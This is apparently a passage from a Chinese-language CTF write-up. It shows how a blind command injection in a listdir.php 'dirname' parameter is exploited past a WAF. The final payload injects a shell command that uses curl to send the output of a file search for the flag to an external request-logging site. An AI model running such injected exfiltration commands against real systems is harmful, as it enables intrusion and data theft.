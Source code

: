 这个waf里面设置了过滤

**总结一下，我们可以利用dirname参数来进行代码执行，需要绕过一些东西**

我们可以尝试注入代码，可是没有回显



这里推荐使用一个在线网站，[对URL分析收集对其发出的请求](http://requestbin.net/)

原理是让靶机访问这个url，这个网站会对靶机的请求包做一个分析，同时返回给我们一个数据

这就是我们最后的payload

```
/listdir.php?dirname=; curl http://requestbin.net/r/wo949nwo?inspect=`find / -name 'flag'`
```

![2020极客大挑战-知x堂](images/2020极客大挑战-知x堂5.png)

找到了路径，直接拿去打开就好了

![2020极客大挑战-知x堂](images/2020极客大挑战-知x堂6.png)
